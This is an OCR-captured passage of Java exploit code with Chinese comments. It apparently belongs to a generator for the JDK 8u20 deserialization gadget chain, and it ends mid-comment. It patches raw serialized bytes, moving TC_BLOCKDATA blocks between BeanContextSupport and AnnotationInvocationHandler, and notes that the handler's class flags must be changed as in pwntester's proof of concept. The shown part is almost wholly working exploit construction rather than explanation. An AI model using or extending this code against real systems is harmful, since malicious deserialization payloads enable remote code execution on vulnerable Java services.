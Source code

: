 ```java

        /**
         TC_BLOCKDATA - 0x77
         Length - 4 - 0x04
         Contents - 0x00000000
         TC_ENDBLOCKDATA - 0x78
         **/

        //把这部分内容先删除，再附加到 AnnotationInvocationHandler 之后
        //目的是让 AnnotationInvocationHandler 变成 BeanContextSupport 的数据流
        //0x77 = 119, 0x78 = 120
        //0x77 for TC_BLOCKDATA, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 119 && bytes[i+1] == 4 && bytes[i+2] == 0 && bytes[i+3] == 0 &&
                    bytes[i+4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 120){
                System.out.println("[+] Delete TC_BLOCKDATA...int...TC_BLOCKDATA at the End of BeanContextSupport");
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                break;
            }
        }

        /*
              serialVersionUID - 0x00 00 00 00 00 00 00 00
                  newHandle 0x00 7e 00 28
                  classDescFlags - 0x00 -
                  fieldCount - 0 - 0x00 00
                  classAnnotations
                    TC_ENDBLOCKDATA - 0x78
                  superClassDesc
                    TC_NULL - 0x70
              newHandle 0x00 7e 00 29
         */
        //0x78 = 120, 0x70 = 112
        //0x78 for TC_ENDBLOCKDATA, 0x70 for TC_NULL
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 0 && bytes[i+1] == 0 && bytes[i+2] == 0 && bytes[i+3] == 0 &&
                    bytes[i + 4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 0 && bytes[i+7] == 0 &&
                    bytes[i+8] == 0 && bytes[i+9] == 0 && bytes[i+10] == 0 && bytes[i+11] == 120 &&
                    bytes[i+12] == 112){
                System.out.println("[+] Add back previous delte TC_BLOCKDATA...int...TC_BLOCKDATA after invocationHandler");
                i = i + 13;
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x77);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x04);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x78);
                break;
            }
        }

        //将 sun.reflect.annotation.nAnnotationInvocationHandler 的 classDescFlags 由 SC_SERIALIZABLE 修改为 SC_SERIALIZABLE | SC_WRITE_METHOD
        //         //这一步其实不是通过理论推算出来的，是通过debug 以及查看 pwntester的 poc 发现需要这么改
```